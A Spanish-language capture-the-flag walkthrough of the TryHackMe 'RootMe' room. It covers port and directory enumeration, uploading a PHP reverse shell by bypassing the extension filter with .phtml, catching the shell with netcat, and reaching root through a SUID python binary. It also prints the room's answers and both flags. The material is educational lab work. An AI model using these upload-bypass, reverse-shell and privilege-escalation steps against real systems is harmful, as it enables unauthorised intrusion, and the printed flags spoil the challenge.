 # RootMe (TryHackMe)

- Objetivo: Obtener acceso al sistema y escalar privilegios hasta root.
- Fecha: 12/06/2025
- Autor del reto: Liiaam251
- Enlace a la máquina: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)
- IP de la máquina: 10.10.135.37

## Enumeración de puertos con Nmap

### Comando utilizado

```bash
nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.135.37
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-12 05:43 EDT
Nmap scan report for 10.10.135.37
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.30 seconds
````
## Task 1 Deploy the machine
Deploy the machine
```bash
No answer needed
```
## Task 2 Reconnaissance

1: Scan the machine, how many ports are open?

```bash
2
```
2: What version of Apache is running?
```bash
2.4.29
```
3: What service is running on port 22?
```bash
ssh
````
## Enumeración subdominios gobuster

### Comando utilizado

```bash
$ gobuster dir -u http://10.10.135.37 -w /home/kali/Downloads/subdomains-top1mil-20000.txt -x html,php,txt -t 50

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.135.37
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/kali/Downloads/subdomains-top1mil-20000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/panel                (Status: 301) [Size: 312] [--> http://10.10.135.37/panel/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.135.37/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.135.37/js/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.135.37/uploads/]
/index.php            (Status: 200) [Size: 616]
Progress: 80000 / 80004 (100.00%)
===============================================================
Finished
```
4: Find directories on the web server using the GoBuster tool.
```bash
No answer needed
```
5: What is the hidden directory?
```bash
/panel/
```

##Getting a shell

Nos redirigimos en nuestro navegador a http://<ip>/panel/ donde podemos ver que tenemos un panel con el que podemos subir un archivo, vamos a intentar subir una shell en php,
yo he utilizado esta DANDOLE PERMISOS DE EJECUCIÓN al instalarla: 

-  Enlace reverse shell: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
Recordar que hay que cambiar el puerto opcionalmente y la IP(tun0) obligatoriamentey despues ponernos en escucha con:

```bash
nc -lvnp <puerto_puesto>
```
Al intentar subir la reverse shell nos da error, php no admitido 

```bash
Select a file to upload:
PHP não é permitido!
````
Entonces le vamos a cambiar la extensión a .phtml
La extensión .phtml hace referencia a archivos que contienen código PHP embebido dentro de HTML. Es funcionalmente igual a .php, pero su uso puede tener ciertos contextos específicos.

Al cambiarle la extencion a .php.phtml
```bash
Select a file to upload:
O arquivo foi upado com sucesso!
```
Ahora solo tenemos que ejecutar la shell desde /uploads/ que lo hemos descubierto antes con gobuster y es donde se guardaban los archivos, al darle clic y estando por netcat en escucha estaríamos dentro

```bash
Index of /uploads
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[ ]	php-reverse-shell.php.phtml	2025-06-12 10:21 	5.4K	 
Apache/2.4.29 (Ubuntu) Server at 10.10.68.176 Port 80
```
Nos vamos al netcat y vemos que ya tenemos acceso
```bash
nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.9.3.53] from (UNKNOWN) [10.10.68.176] 36442
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:25:14 up 4 min,  0 users,  load average: 0.03, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
````
Para que la consola se vea mejor he usado este comando:
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
## Task 3 - Getting a shell
1 user.txt
buscamos la flag con el comando 
````bash
find / -type f -name "user.txt" 2>/dev/null
````
nos movemos dentro y nos da la primera flag:

````bash
THM{y0u_g0t_a_sh3ll}
````
## Escalado de Privilgios - SUID

Buscamos posibles SUID con

````bash
www-data@rootme:/home$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
...
````
Vemos que está python, vamos a buscar en GTFObins python a ver que sale en apartado de SUID:

recordar poner ruta del suid en vez de ./python o moverse a dicho directorio sino no irá

```bin
www-data@rootme:/home$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
````
## Task 3 - Privilege escalation

1. Search for files with SUID permission, which file is weird?
````bin
/usr/bin/python
````
2. Find a form to escalate your privileges.
````bin
No answer needed
````
2. root.txt
   
Nos movemos a al carpeta de root y hacemos ls para ver archivos y ahí está la flag
````bin
THM{pr1v1l3g3_3sc4l4t10n}
````





















